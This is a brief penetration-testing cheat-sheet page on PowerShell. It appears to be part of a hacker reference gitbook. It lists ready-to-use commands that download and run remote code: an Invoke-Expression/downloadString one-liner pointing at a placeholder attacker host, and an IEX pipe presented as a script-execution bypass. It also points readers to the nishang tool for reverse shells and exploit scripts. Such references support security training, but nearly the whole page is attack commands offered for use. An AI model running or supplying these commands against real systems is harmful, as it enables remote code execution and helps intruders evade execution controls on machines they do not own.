 # PowerShell

PowerShell.exe full path: `C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe`

Fully PowerShell version of `wget`. Retrieve file and execute remote code after downloading:

```text
powershell "Invoke-Expression(New-Object Net.Webclient).downloadString('http://<ip>:<port>/<filename>')"
```

Can also use `wget https://zweilosec.gitbook.io/hackers-rest -OutFile C:\Windows\Temp\out.html` to save the file to the local machine.  `wget` is an alias for `Invoke-WebRequest`. `-Outfile` is needed to save the file to disk.

PowerShell Script Execution Bypass: \[can embed in php too! TODO: write script example of this\]:

```text
echo IEX(New-Object Net.WebClient).DownloadString(http://<ip:port/filename.ps1>) | powershell -noprofile -
```

PowerShell reverse shell and exploit scripts: `nishang` To learn how to use this tool check out Ippsec's video on youtube: [Ippsec:HacktheBox - Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE)

